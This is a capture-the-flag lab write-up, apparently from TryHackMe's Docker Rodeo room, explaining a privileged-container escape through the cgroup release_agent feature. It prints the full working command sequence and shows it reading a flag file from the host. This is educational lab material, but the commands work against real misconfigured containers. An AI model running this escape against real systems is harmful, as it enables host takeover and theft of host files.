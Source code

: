 **9.4. Let's briefly summarise what happens here:**

9.4.1. We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "/tmp/cgrp" on the container.

9.4.2. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. ([Paul Menage., 2004](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt))

9.4.3. We find out where the containers files are stored on the host and store it as a variable

9.4.4. Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.

9.4.5. Let's turn our exploit into a shell on the host

9.4.6. Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed

9.4.7. Make our exploit executable!

9.4.8. We create a process and store that into "/tmp/cgrp/x/cgroup.procs"

9.5. Loot:

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit1.png)

Logging into the new Instance as "root" and executing the code snippet, resulting in container escape.

![](https://assets.tryhackme.com/additional/docker-rodeo/privileged-container/exploit2.png)

Showing that the command we executed (/exploit) has grabbed the file from the host operating system.

Contents of "flag.txt" from the host operating system

```
root@8a9427527c82:~# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
root@8a9427527c82:~# echo 1 > /tmp/cgrp/x/notify_on_release
root@8a9427527c82:~# host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
root@8a9427527c82:~# echo "$host_path/exploit" > /tmp/cgrp/release_agent
root@8a9427527c82:~# echo '#!/bin/sh' > /exploit
root@8a9427527c82:~# echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
root@8a9427527c82:~# chmod a+x /exploit
root@8a9427527c82:~# sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
root@8a9427527c82:~# cd /
root@8a9427527c82:/# ls
bin  boot  dev  etc  exploit  flag.txt  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
root@8a9427527c82:/# cat flag.txt 
thm{you_escaped_the_chains}
root@8a9427527c82:/# 
```
